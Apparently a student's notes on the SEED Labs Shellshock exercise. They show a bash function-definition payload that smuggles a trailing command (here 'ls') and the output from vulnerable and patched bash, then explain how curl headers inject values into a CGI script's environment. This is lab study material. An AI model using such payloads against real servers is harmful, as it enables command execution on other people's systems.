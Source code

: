         $ export foo
        $ ./bash_shellshock
        bash_shellshock   Dockerfile   getenv.cgi   server_name.conf   vul.cgi
        $ foo
        hello
        ```
- on pathed `bash`
    - the attack will not work because when passing `foo` from parent to child process, in a patched bash program, `foo` will not be parsed to a function
        ```
        $ foo='() { echo "hello";}; ls;'
        $ export foo
        $ /bin/bash
        $ foo
        Command 'foo' not found, ...
        ...
        $ echo $foo
        () { echo "hello";}; ls;
        ```

## Task 2: Passing Data to Bash via Environment Variable
- `getenv.cgi` prints out all its environment variables using `strings /proc/$$/environ`
### Task 2.A: Using browser
- visit `www.seedlab-shellshock.com/cgi-bin/getenv.cgi`, use HTTP Header Live to see which environment variables' values are set by the browser, they are listed below
    ```
    HTTP_HOST=www.seedlab-shellshock.com
    HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
    HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
    HTTP_ACCEPT_ENCODING=gzip, deflate
    HTTP_CONNECTION=keep-alive
    HTTP_UPGRADE_INSECURE_REQUESTS=1
    HTTP_CACHE_CONTROL=max-age=0
    ```
### Task 2.B: Using `curl`
- to set the environment variable data to arbitrary values, we will have to modify the behavior of the browser (too complicated). However, we can use a command-line tool called `curl`, which allows users to control most of fields in an HTTP requst
    - some options
        - `-v` print out the header of the HTTP request
        - `-A`, `-e`, and `-H` can set some fields in the header (figure out what fields are set by each of them)
- test 
    ```
    $ curl -A "set by -A" -e "set by -e" -H "X: set by -H"
    ****** Environment Variables ******
    ...
    HTTP_USER_AGENT=set by -A
    HTTP_REFERER=set by -e
    HTTP_X=set by -H
    ...
    ```
- conclusion
    - `-A` can set the value of `HTTP_USER_AGENT`
    - `-e` can set the value of `HTTP_REFERER`
    - `-H` can set arbitrary header and its value, e.g., `-H "x: y"` will set a header `HTTP_X` with value `y`
    - we can use `-H` to inject data to the environment variables of the CGI program
